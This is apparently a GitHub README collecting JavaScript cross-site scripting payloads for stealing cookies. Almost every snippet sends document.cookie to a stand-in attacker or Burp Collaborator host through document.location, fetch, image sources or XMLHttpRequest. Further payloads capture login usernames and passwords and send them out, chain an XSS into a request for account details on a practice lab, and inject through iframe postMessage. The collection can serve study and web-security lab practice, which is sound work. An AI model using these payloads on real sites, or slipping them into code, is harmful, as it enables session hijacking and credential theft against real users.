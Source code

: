 
# CookieStealer-Payloads  

>Cookie Stealer payloads using Javascript

```Javascript
JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie
```  

>Reflected XSS into HTML context with nothing encoded in search.  

```JavaScript
<script>document.location='https://COLLABORATOR.com?c='+document.cookie</script>
```  

>Reflected DOM XSS, into JSON data that is processed by **eval().**  

```JavaScript
\"-fetch('https://Collaborator.com?cs='+btoa(document.cookie))}//
```  

```Javascript
<script>
document.location='https://Collaborator.com/?cookiestealer='+document.cookie;
</script>
```

```Javascript
a"/><script>document.location='https://bc.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```

```Javascript
document.location='https://burp-collab.x.com/cookiestealer.php?c='+document.cookie;
```

```Javascript
document.location='https://BurpCollaBoRaTor.oastify.com/?FreeCookies='+document.cookie;
```

```Javascript
/?evil='/><script>document.write('<img src="https://exploit.com/steal.MY?cookie=' document.cookie '" />')</script> 
```

```Javascript
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location='http://BURPCOL.oastify.com/?StealCookies=' document.cookie ;//
```

```Javascript
<img src=x onerror=this.src=//exploit.net/?'+document.cookie;>
```

```Javascript
<script>
    document.location=""http://stock.lab.web-security-academy.net/?productId=4
            <script>
                    var req = new XMLHttpRequest(); 
                    req.onload = reqListener; 
                    req.open('get','https://lab.web-security-academy.net/accountDetails',true); 
                    req.withCredentials = true;
                    req.send();
                    function reqListener() {
                            location='https://exploit.web-security-academy.net/log?key='%2bthis.responseText;
                    };
            %3c/script>
            &storeId=1""
</script>
```

```Javascript
<script>
fetch(‘https://burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

```Javascript
<script>
  fetch('https://COLLABORATOR.com', {
  method: 'POST',
  mode: 'no-cors',
  body:'PeanutButterCookies='+document.cookie
  }); 
</script>   
```

```Javascript
x"); var fuzzer=new Image;fuzzer.src="https://COLLABORATOR.com/?"+document.cookie; //
```

```Javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>  
```

```Javascript
<script>new Image().src="http://Collaborator.COM/cool.jpg?output="+document.cookie;</script>
```

```Javascript
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```

```Javascript
<img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
fetch('https://BURP-COLLABORATOR', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>::::  Steal Password / Cookie Stealer ::::

>XMLHttpRequest

```html
<input name=username id=username>
<input type=password name=password id=password onhcange="CaptureFunction()">
<script>
function CaptureFunction()
{
var user = document.getElementById('username').value;
var pass = document.getElementById('password').value;
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://exploit.com/?username=" + user + "&password=" + pass, true);
xhr.send();
}
</script>
```

>FETCH API

```Javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


>::::  DATA EXFILTRATION  /  COOKIE STEALER  ::::
```Javascript
  </textarea><script>fetch('http://exploit.evil?cookie=' + btoa(document.cookie) );</script> 
```

```Javascript
<script>document.write('<img src="http://evil.net/submitcookie.php?cookie=' + escape(document.cookie) + '" />');</script>
```

```Javascript
<script>
document.write('<img src="HTTPS://EXPLOIT.net/?c='+document.cookie+'" />');
</script>
```

```Javascript
<script>document.write('<img src="https://EXPLOIT.net/?c='%2bdocument.cookie%2b'" />');</script>
```  

>IFRAMEs

```JavaScript
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>
```  

>Javascript set test cookie in current browser session with no HttpOnly flag to allow proof of concept cookie stealer.  

```
document.cookie = "TopSecretCookie=HackThePlanetWithPeanutButter";
```
